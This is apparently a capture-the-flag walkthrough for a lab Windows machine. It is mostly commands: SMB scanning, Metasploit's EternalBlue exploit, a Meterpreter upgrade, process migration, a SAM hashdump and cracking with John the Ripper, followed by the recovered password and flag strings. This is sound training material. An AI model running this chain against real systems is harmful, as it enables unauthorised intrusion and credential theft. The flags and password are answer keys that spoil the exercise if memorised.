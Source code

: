# BASIC INFO

```
export IP=10.10.118.163


```

# EXPLOIT

```
nmap --script=smb* $IP

```
> Vulnerable to eternal blue
```
msfconsole
search eternalblue type:exploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.10.118.163
run

```

# GET METERPRETER

```
ctrl^z to background the session
use post/multi/manage/shell_to_meterpreter
set session 1
exploit
sessions 2
shell
whoami
ctrl^z
ps

```
> Note down pid of spoolsv.exe
> pid=2568

# JOHN THE RIPPER

```
migrate 2568
hashdump
```
> copy the hash and save to a file
```
john hash --wordlist=/usr/share/wordllists/rockyou.txt
password = alqfna22

```

# FINDING THE FLAG

```
cd C:/
cat flag1.txt
flag1: access_the_machine
```

> Google windows sam location

```
C:/Users/System32/config
cat flag2.txt
flag2:sam_database_elevated_access

search -f flag3.txt
cat flag3.txt
flag3:admin_documents_can_be_valuable
```